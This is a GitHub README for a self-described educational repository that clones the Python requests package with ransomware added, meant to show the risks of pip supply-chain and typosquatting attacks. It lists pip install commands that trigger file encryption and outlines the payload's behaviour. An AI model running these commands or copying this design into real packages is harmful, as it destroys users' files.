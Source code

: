 
# MALWARE DISCLOSURE
<span style="color:red">THIS REPOSITORY IS MALWARE! Installation via pip WILL ENCRYPT YOUR FILES.</span>

This repository is a clone of the python requests package with ransomware injected into it. This project is to demonstrate. This repository constitutes `dual use content` per the [github malware policy](https://docs.github.com/en/github/site-policy/github-community-guidelines#active-malware-or-exploits).  

## Purpose

The process in which pip works is flawed. If this package was published to pypi, under a different name with a low levenshtein distance it could have catastrophic consequences. The inherent flaws in the pip package manager are multipronged.  

- pip allows for arbitrary code execution with a single install command.
  - one mistyped letter could cause irreversible damage to a developer's computer
- pypi does not actively scan for malware on their platform
  - some 3rd parties do this with a reactionary approach

This repository is not intended to be published, but to show the dangers and inherent trust that a developer must accept when using a package or library.  
Many popular packages have hundreds of dependencies. The simple and common act of including a single package in a requirements.txt or pip instal means that you trust the code of every one of these hundreds of developers. Numerous instances of supply chain attacks have occurred in recent years and this danger is very real.

## DANGER!

The following commands trigger the malware attack, and should not be run.  
`pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`pip3 install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`python3 -m pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  

A decryption tool is installed with this ransomware, the steps to decrypt are as follows:

- navigate to your desktop, and read RANSOM.txt
- copy the encryption key from RANSOM.txt
- navigate to your home directory, there you will find malware.py
- run `python3 malware.py -d encryption_key`

**NOTE** a double encryption scenario is possible, if this occurs, your data will be lost forever!!

The action of this repository is as follows:

- determine the operating system
- recursively operate on `my documents`|`/home/${USER}`|`/Users/${USER}` for windows|linux|mac
- Flag any file with an indication of sensitive information in the filename, (i.e. 2020_tax, mortgage-application, bitcoinWallet)
  - a real malicious script would post these files to some file hosting site
- encrypt all files in the user's documents folder
- show ransom demands (with password to decrypt) as RANSOM.txt on your desktop

## Original Content

---

# Requests

**Requests** is a simple, yet elegant, HTTP library.

```python
>>> import requests
>>> r = requests.get('https://api.github.com/user', auth=('user', 'pass'))
>>> r.status_code
200
>>> r.headers['content-type']
'application/json; charset=utf8'
>>> r.encoding
'utf-8'
>>> r.text
'{"type":"User"...'
>>> r.json()
{'disk_usage': 368627, 'private_gists': 484, ...}
```

Requests allows you to send HTTP/1.1 requests extremely easily. There’s no need to manually add query strings to your URLs, or to form-encode your `PUT` & `POST` data — but nowadays, just use the `json` method!

Requests is one of the most downloaded Python package today, pulling in around `30M downloads / week`— according to GitHub, Requests is currently [depended upon](https://github.com/psf/requests/network/dependents?package_id=UGFja2FnZS01NzA4OTExNg%3D%3D) by `500,000+` repositories. You may certainly put your trust in this code.

[![Downloads](https://pepy.tech/badge/requests/month)](https://pepy.tech/project/requests)
[![Supported Versions](https://img.shields.io/pypi/pyversions/requests.svg)](https://pypi.org/project/requests)
[![Contributors](https://img.shields.io/github/contributors/psf/requests.svg)](https://github.com/psf/requests/graphs/contributors)

## Installing Requests and Supported Versions

Requests is available on PyPI:

```console
$ python -m pip install requests
```

Requests officially supports Python 2.7 & 3.6+.

## Supported Features & Best–Practices

Requests is ready for the demands of building robust and reliable HTTP–speaking applications, for the needs of today.

- Keep-Alive & Connection Pooling
- International Domains and URLs
- Sessions with Cookie Persistence
- Browser-style TLS/SSL Verification
- Basic & Digest Authentication
- Familiar `dict`–like Cookies
- Automatic Content Decompression and Decoding
- Multi-part File Uploads
- SOCKS Proxy Support
- Connection Timeouts
- Streaming Downloads
- Automatic honoring of `.netrc`
- Chunked HTTP Requests

## API Reference and User Guide available on [Read the Docs](https://requests.readthedocs.io)

[![Read the Docs](https://raw.githubusercontent.com/psf/requests/main/ext/ss.png)](https://requests.readthedocs.io)

## Cloning the repository

When cloning the Requests repository, you may need to add the `-c
fetch.fsck.badTimezone=ignore` flag to avoid an error about a bad commit (see
[this issue](https://github.com/psf/requests/issues/2690) for more background):

```shell
git clone -c fetch.fsck.badTimezone=ignore https://github.com/psf/requests.git
```

You can also apply this setting to your global Git config:

```shell
git config --global fetch.fsck.badTimezone ignore
```

---

[![Kenneth Reitz](https://raw.githubusercontent.com/psf/requests/main/ext/kr.png)](https://kennethreitz.org) [![Python Software Foundation](https://raw.githubusercontent.com/psf/requests/main/ext/psf.png)](https://www.python.org/psf)
